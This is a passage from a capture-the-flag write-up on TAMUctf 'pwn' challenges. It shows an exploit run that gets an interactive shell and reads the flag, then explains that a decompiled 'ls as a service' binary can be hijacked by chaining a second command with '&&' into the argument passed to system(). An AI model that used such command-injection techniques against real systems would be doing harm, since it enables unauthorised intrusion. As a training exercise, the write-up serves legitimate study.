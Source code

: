 
~~~ bash

python2.7 exploit_pwn3.py
[+] Opening connection to pwn.tamuctf.com on port 4323: Done
4288163966
[+] Input addresse: ~0\x98\xff
None
[*] Switching to interactive mode
$ cat flag.txt
gigem{r3m073_fl46_3x3cu710n}

~~~ 

## Pwn 4


Find the binary here: [pwn4](/assets/sources/tamuctf/pwn4)


I think the code here had an unwanted vulnerability (hum ^^), so the method used below is, I think, not the intended one. But hey, a shell is a shell.

Let's quickly look at the code.


~~~ java
int laas()
{
  int result; // eax@2
  char s; // [sp+7h] [bp-21h]@1

  puts("ls as a service (laas)(Copyright pending)");
  puts("Enter the arguments you would like to pass to ls:");
  gets(&s);
  if ( strchr(&s, '/') )
    result = puts("No slashes allowed");
  else
    result = run_cmd((int)&s);
  return result;
}


int __cdecl run_cmd(int a1)
{
  char s; // [sp+2h] [bp-26h]@1

  snprintf(&s, 0x1Bu, "ls %s", a1);
  printf("Result of %s:\n", &s);
  return system(&s);
}
~~~ 


So it will appends our input to `ls ` and call it as an argument of the `system(input)` function.
We then can simply execute another command with the `&&` characters.
